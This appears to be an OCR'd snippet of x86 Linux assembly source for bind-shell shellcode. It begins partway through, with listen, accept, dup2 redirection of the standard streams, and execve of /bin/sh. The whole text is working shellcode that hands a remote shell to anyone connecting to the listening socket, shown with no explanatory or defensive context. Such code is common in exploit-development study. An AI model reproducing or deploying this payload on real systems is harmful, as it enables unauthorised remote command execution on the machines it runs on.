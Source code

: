 ```nasm
	
	xor eax, eax		; zero out eax

	; Listen on the socket
	
	push eax		; backlog (0)
	push edi		; socketfd
	mov ecx, esp		; point ecx to stack
	inc ebx			; increment to 3
	inc ebx			; increment to 4
	mov al, 0x66		; socketcall (102)
	int 0x80		; execute listen


	; Accept connections

	xor edx, edx		; zero out edx
	push edx		; NULL
	push edx		; NULL
	push edi		; socketfd
	inc ebx			; SYS_ACCEPT (5)
	mov ecx, esp		; point ecx to stack
	mov al, 0x66		; socketcall (102)
	int 0x80		; execute accept
	
	xchg ebx, eax		; move created client_sock in ebx
	
	; Redirect STDIN, STDERR, STDOUT

	xor ecx, ecx		; zero out ecx
	mov cl, 0x2 		; set the counter
	
loop:
	mov al, 0x3f		; dup2 (63)
	int 0x80		; exec dup2
	dec ecx			; decrement counter
	jns loop		; jump until SF is set

	; Execute /bin/sh

	push edx		; NULL
	push 0x68732f2f		; "hs//"
	push 0x6e69622f 	; "nib/"
	mov ebx, esp		; point ebx to stack
	mov ecx, edx		; NULL
	mov al, 0xb		; execve
	int 0x80		; execute execve

```

